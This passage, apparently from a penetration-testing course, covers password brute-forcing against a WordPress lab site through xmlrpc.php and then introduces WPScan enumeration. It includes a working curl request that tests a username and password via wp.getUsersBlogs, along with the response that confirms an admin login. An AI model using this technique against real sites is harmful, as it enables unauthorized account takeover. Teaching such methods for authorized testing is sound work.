 # Login

Once we are armed with a list of valid users, we can mount a password brute-forcing attack to attempt to gain access to the WordPress backend. This attack can be performed via the login page or the xmlrpc.php page.

If our POST request against xmlrpc.php contains valid credentials, we will receive the following output:

```bash
curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php



<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><struct>
  <member><name>isAdmin</name><value><boolean>1</boolean></value></member>
  <member><name>url</name><value><string>http://blog.inlanefreight.com/</string></value></member>
  <member><name>blogid</name><value><string>1</string></value></member>
  <member><name>blogName</name><value><string>Inlanefreight</string></value></member>
  <member><name>xmlrpc</name><value><string>http://blog.inlanefreight.com/xmlrpc.php</string></value></member>
</struct></value>
</data></array>
      </value>
    </param>
  </params>
</methodResponse>
```

If the credentials are not valid, we will **receive a 403 faultCode** error.

<br>
<br>
<br>
<br>

# WPScan

There are various enumeration options that can be specified, such as vulnerable plugins, all plugins, user enumeration, and more. It is important to understand all of the options available to us and fine-tune the scanner depending on the goal (i.e., are we just interested to see if the WordPress site is using any vulnerable plugins, do we need to perform a full audit of all aspects of the site or are we just interested in creating a user list to use in a brute force password guessing attack?).
